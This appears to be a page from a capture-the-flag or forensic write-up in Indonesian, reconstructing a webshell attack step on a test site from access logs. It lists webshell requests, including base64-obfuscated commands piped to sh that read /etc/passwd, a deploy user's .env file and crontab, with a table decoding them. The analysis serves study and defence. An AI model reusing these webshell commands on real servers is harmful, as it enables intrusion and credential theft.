

# Perimeter Breach — Webshell execution

[← Overview](07-perimeter-breach.md) · [Index](index.md)

## 2.4 Webshell execution

Upload:

```text
185.220.101.47 - - [10/Oct/2026:13:42:55 +0700] "POST /admin/upload.php HTTP/1.1" 200 312 "https://aromacraft.example/admin/upload.php" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
```

Webshell bernama `cache_thumb.php`, disamarkan sebagai gambar (`mime="image/jpeg"`), tetapi berisi kode PHP. Setelah itu penyerang memanggil:

```text
13:43:41 GET /uploads/cache_thumb.php?c=whoami                 200 258
13:43:56 GET /uploads/cache_thumb.php?c=id                     200 809
13:44:35 GET /uploads/cache_thumb.php?c=uname%20-a            200 80
13:44:49 GET /uploads/cache_thumb.php?c=pwd                    200 995
13:45:13 GET /uploads/cache_thumb.php?c=ls%20-la%20%2Fvar%2Fwww%2Fhtml 200 1313
13:45:37 GET /uploads/cache_thumb.php?c=echo%20Y2F0IC9ldGMvcGFzc3dk%7Cbase64%20-d%7Csh 200 1622
13:45:49 GET /uploads/cache_thumb.php?c=echo%20bHMgLWxhIC9ob21lL2RlcGxveQ%3D%3D%7Cbase64%20-d%7Csh 200 2400
13:46:06 GET /uploads/cache_thumb.php?c=echo%20Y2F0IC9ob21lL2RlcGxveS8uZW52%7Cbase64%20-d%7Csh 200 1037
13:46:31 GET /uploads/cache_thumb.php?c=echo%20Y3JvbnRhYiAtbA%3D%3D%7Cbase64%20-d%7Csh 200 36
13:47:02 GET /uploads/cache_thumb.php?c=ls%20-la%20%2Ftmp 200 176
```

Decode base64:

```text
Y2F0IC9ldGMvcGFzc3dk              -> cat /etc/passwd
bHMgLWxhIC9ob21lL2RlcGxveQ==      -> ls -la /home/deploy
Y2F0IC9ob21lL2RlcGxveS8uZW52      -> cat /home/deploy/.env
Y3JvbnRhYiAtbA==                  -> crontab -l
```

Ukuran respons `cat /home/deploy/.env` = 1037 byte, cukup besar untuk memuat kredensial. Ini menjadi jembatan ke lateral movement.

### Evidence langkah ini



*Terminal evidence — `03-webshell.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-webshell.txt`](assets/perimeter-breach/03-webshell.txt)
